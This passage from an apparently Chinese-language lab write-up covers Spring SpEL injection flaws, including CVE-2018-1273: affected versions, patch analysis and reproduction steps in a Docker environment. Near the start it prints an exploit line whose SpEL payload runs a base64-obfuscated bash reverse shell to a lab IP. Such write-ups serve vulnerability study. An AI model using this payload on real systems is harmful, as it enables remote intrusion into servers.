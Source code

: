 修改exp中的靶机ip和反弹命令

    
    
    sockjs = SockJS('http://192.168.1.10:8080/gs-guide-websocket')sockjs.send('subscribe', {    'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}')",

如图所示

![]()

运行poc.py即可得到反弹shell

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817102003.png)

# CVE-2018-1273

Spring Data Commons远程命令执行(CVE-2018-1273)，当用户在项目中利用了Spring-
data的相关web特性对用户的输入参数进行自动匹配的时候，会将用户提交的form表单的key值作为Spel的执行内容而产生漏洞

## 影响版本

Spring Data Commons 1.13 - 1.13.10 (Ingalls SR10) Spring Data REST 2.6 -
2.6.10 (Ingalls SR10) Spring Data Commons 2.0 to 2.0.5 (Kay SR5) Spring Data
REST 3.0 - 3.0.5 (Kay SR5)

## 漏洞分析

这里直接看补丁进行分析，这是一个spel表达式注入漏洞。补丁的内容如下：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817102004.png)

补丁大致就是将StandardEvaluationContext替代为SimpleEvaluationContext，由于StandardEvaluationContext权限过大，可以执行任意代码，会被恶意用户利用。

SimpleEvaluationContext的权限则小的多，只支持一些map结构，通用的jang.lang.Runtime,java.lang.ProcessBuilder都已经不再支持。

## 漏洞复现

首先进入CVE-2018-1273的docker环境

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817102005.png)

访问http://192.168.1.10:8080/users并用bp抓包

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817102006.png)

这里随便填一下Username跟Password

![]()

生成一个shell.sh文件
